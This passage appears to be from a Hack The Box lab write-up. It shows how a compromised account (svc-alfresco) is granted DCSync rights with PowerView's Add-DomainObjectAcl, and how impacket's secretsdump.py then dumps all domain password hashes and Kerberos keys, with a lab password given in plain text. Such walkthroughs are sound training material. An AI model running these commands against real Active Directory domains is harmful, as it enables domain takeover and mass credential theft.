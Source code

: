![We have Add-DomainObjectAcl](screenshots/powerview.png)

To give ourselves DCSync rights, we use the following command:
```powershell
# -TargetIdentity is the domain object we want to modify.  In this case, it is the domain object itself
# -PrincipalIdentity is the domain object we want to give the rights to (our use in this case)
# -Rights DCSync tells PowerView to try to get DCSync rights (the three permissions we outlined above)

Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity svc-alfresco -Rights DCSync
```

There will not be any output if it works, so let's use another impacket tool called ```secretsdump.py``` to perform the replication and give us the domain hashes:


```bash
# htb.local is in our hosts file.  You can also add -dc-ip 10.10.10.161 if you do not want to modify your hosts file

# -just-dc tells secretsdump to only extract password hashes and Kerberos keys

python3 /opt/impacket/examples/secretsdump.py -just-dc svc-alfresco:s3rvice@htb.local
```
